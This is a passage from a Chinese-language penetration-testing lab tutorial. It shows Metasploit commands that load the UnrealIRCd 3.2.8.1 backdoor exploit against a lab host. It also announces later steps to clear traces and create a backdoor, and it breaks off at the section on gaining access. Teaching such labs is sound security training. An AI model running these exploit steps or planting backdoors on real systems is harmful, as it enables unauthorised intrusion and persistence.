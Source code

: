 ![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479890676283.png-wm)

现在两台实验环境都已经启动，我们即将对目标主机进行渗透测试。


## 三、 创建访问后门

### 3.1 渗透目标主机

这里我们使用 Unreal Ircd 服务漏洞，先取得所要渗透的目标主机的权限，接着再进行攻击后清除痕迹并创建后门程序。

> 后门程序一般是指那些绕过安全性控制，而获取对程序或系统访问权的程序方法。在软件的开发阶段，程序员常常会在软件内创建后门程序以便可以修改程序设计中的缺陷。但是，如果这些后门被其他人知道，或是在发布软件之前没有删除后门程序，那么它就成了安全风险，容易被黑客当成漏洞进行攻击。

接下来我们将对创建简单的后门程序进行演示。

首先在 Kali 的程序命令终端中，输入命令，查找 Unreal Ircd 的可用模块：

```
# 打开终端 MSF

sudo msfconsole

# 查找相应的漏洞模块

search unreal_ircd
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480487305059.png-wm)

在 Kali 终端中，输入命令使用该模块：

```
# 使用 use 命令，使用相应的模块

use exploit/unix/irc/unreal_ircd_3281_backdoor
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480487734597.png-wm)

使用 show 命令显示参数，并设置相应的参数：

```
# 显示所要设置的参数
show options

# 使用命令，设置参数
set RHOST 192.168.122.102

```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480487885901.png-wm)


### 3.2 获取权限
